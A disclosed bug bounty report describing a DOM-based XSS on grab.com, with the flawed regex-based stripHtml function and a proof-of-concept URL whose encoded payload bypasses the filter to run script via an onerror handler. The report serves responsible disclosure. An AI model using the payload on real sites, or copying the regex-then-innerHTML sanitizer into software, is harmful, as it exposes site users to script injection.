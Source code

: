 # Dom based xss affecting all pages from https://www.grab.com/.

## Report Details
- **Report ID**: 247246
- **URL**: https://hackerone.com/reports/247246
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-07-08T17:18:20.693Z
- **Disclosed**: 2017-08-17T19:51:18.812Z

## Reporter
- **Username**: netfuzzer
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: grab

## Vulnerability Information
Hello,

there's a dom based xss vulnerability affecting all pages under the domain https://www.grab.com/.
This vulnerability wasn't properly patched so I managed to bypass the regular expressioned that was added into the function.

Vulnerable code:
````
var stripHtml = (function () {
		  var div = document.createElement('div');
		  return function (html) {
		    div.innerHTML = html.replace(/<\/?\w+[^>]*\/?>/g, "");
		    return (div.innerText || div.textContent); // textContent is for firefox
		  };
		})();
``````

PoC: https://www.grab.com/sg/partnerships/?xss=%3C%3Ca/%3A%3C%22a%22%3Eimg%20src%3D%23%20onerror%3Dconfirm%28%27XSSED%27%29%3E

visit url above to reproduce.

A screenshot is attached to this report.

cheers,
Mario.

## Attachments
- screenshot.png
